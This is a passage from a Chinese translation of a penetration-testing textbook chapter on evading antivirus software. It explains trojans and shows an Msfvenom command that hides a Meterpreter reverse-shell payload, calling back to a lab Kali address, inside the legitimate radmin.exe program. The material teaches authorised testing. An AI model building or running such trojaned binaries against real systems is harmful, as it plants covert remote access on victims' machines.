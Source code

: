 ## 第十二章. 绕过防病毒应用程序

你的渗透测试客户很可能会使用某种防病毒解决方案。到目前为止，本书中的恶意可执行文件没有被防病毒应用程序删除，但防病毒程序规避是一个不断变化的领域。通常，你通过使用内存损坏漏洞并直接将负载加载到内存中——也就是说，永不触及磁盘——更有可能避免被检测到。话虽如此，随着攻击领域的转变，越来越强调客户端和社会工程学攻击，可能并非总能避免将负载写入磁盘。在本章中，我们将研究几种方法，尝试在将负载写入磁盘时隐藏我们的恶意软件，以避免被检测到。

## 木马

在第四章中，我们创建了一个独立的恶意可执行文件，运行 Metasploit 负载。尽管我们可能通过社会工程学手段欺骗用户下载并运行我们的恶意文件，但除了执行文件的负载外没有任何其他功能，可能会让用户意识到有异常。如果我们能够将负载隐藏在一个正常运行的合法程序中，并让负载在后台运行，我们将更有可能避开检测。这种程序被称为*木马*，它源自传说中的木马，结束了特洛伊战争。木马看似是一个无害的贡品，被带入曾经固若金汤的特洛伊城墙内，敌军士兵藏身其中，准备发起攻击。

在第八章中，我们遇到了一个木马：我们 Ubuntu 目标机上的 Vsftpd 服务器有一个后门，可以通过在用户名中输入一个笑脸符号来触发登录。攻击者侵入了 Vsftpd 的源代码仓库，并在程序中加入了额外的木马功能。从初次被攻破到被发现之间，任何从官方仓库下载 Vsftpd 的人都会得到一个被木马化的版本。

### Msfvenom

尽管反向工程二进制文件或获取源代码并手动添加木马代码超出了本书的范围，但 Msfvenom 工具有一些选项，我们可以用它将 Metasploit 负载嵌入到合法的二进制文件中。示例 12-1 展示了我们在之前的内容中未曾遇到的一些重要选项。

示例 12-1. Msfvenom 帮助页面

```
root@kali:~# **msfvenom -h**
Usage: /opt/metasploit/apps/pro/msf3/msfvenom [options] <var=val>

Options:
    -p, --payload    [payload]       Payload to use. Specify a '-' or stdin to
                                      use custom payloads
--*snip*--
  ❶-x, --template   [path]           Specify a custom executable file to use
                                       as a template
  ❷-k, --keep                        Preserve the template behavior and inject
                                      the payload as a new thread
--*snip*--
```

特别地，`-x` 标志 ❶ 允许我们使用可执行文件作为模板，在其中嵌入我们选择的有效负载。然而，尽管生成的可执行文件看起来与原始文件相似，添加的有效负载将暂停原始程序的执行，我们不应期望用户在启动时遇到看似挂起的可执行文件会多次运行。幸运的是，Msfvenom 的 `-k` 标志 ❷ 将保持可执行模板的完整性，并在新线程中运行我们的有效负载，从而允许原始可执行文件正常运行。

让我们使用 `-x` 和 `-k` 标志构建一个被植入木马的 Windows 可执行文件，它对用户看起来是正常的，但将在后台向我们发送一个 Meterpreter 会话。为此，我们使用 `-p` 标志选择有效负载，并按照 第四章中的说明设置相关的有效负载选项。任何合法的可执行文件都可以使用；你可以在 Kali Linux 的 */usr/share/windows-binaries* 中找到一些有用的 Windows 二进制文件用于渗透测试。

要将有效负载嵌入到 *radmin.exe* 二进制文件中，输入：

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2345 -x /usr/share/windows-binaries/radmin.exe -k -f exe > radmin.exe**
```

我们的 Msfvenom 命令使用 `-p` 选项指定生成的有效负载。我们将 `LHOST` 选项设置为 Kali 的 IP 地址，这是有效负载运行时回调的系统。我们还可以设置 `LPORT` 选项。如本节所讨论，`-x` 选项选择一个可执行文件作为有效负载的嵌入目标。`-k` 选项将在独立线程中运行有效负载。`-f` 标志告诉 Msfvenom 将有效负载构建为可执行格式。一旦创建完成，在 Windows XP 或 Windows 7 目标上运行这个被植入木马的二进制文件。Radmin Viewer 程序应该看起来正常运行（图 12-1），但嵌入的有效负载应该为我们提供一个 Meterpreter 会话，前提是我们使用 *multi/handler* 模块设置了处理程序。


 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework